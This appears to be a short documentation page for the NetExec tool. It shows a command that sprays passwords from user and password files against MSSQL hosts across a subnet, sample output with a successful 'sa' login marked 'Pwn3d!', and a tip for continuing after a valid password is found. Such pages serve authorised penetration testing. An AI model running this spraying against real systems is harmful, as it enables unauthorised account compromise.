 # Password spraying

#### Password spraying (without bruteforce)

```
#~ nxc mssql 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce
```

Expected Results:

```
MSSQL       10.10.10.59     1433   None             [-] ERROR(TALLY): Line 1: Login failed for user 'test1'.
MSSQL       10.10.10.59     1433   None             [+] sa:password (Pwn3d!)
```

{% hint style="info" %}
By default nxc will exit after a successful login is found. Using the `--continue-on-success` flag will continue spraying even after a valid password is found. Usefull for spraying a single password against a large user list.
{% endhint %}
